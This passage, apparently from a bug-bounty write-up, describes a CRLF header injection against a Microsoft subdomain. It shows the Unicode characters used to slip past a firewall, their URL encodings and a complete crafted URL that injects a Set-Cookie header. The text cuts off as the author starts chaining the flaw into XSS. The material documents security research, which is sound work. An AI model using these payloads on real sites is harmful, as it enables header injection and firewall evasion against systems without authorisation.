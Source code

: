 ```
Payload responsible for CRLF injection is :- 嘍嘊
```

so after getting this payload, I crafted a new payload and new URL for CRLF Injection and this time with **“Firewall Bypass”**

I also used **URL encoding** to avoid further errors like this

```
BeforeURL Encoding
Main Payload:- 嘍嘊
After URL Encoding
嘍 :- %E5%98%8D
嘊 :- %E5%98%8A
```

so after URL encoding, I crafted a new payload like this

```
https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=thecyberneh
```

I tried with this URL and Boom!!!

I got a response and the header was: **Set-Cookie: crlfinjection=thecyberneh**

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

But I know that I can do many things with this CRLF injection, so I did not report that and tried to chain with some other bugs.

### CRLF TO XSS with Firewall Bypass

As you know that there is a blank line at the end of the request and response header like this:- ( line 13 in request and line 20 in response )
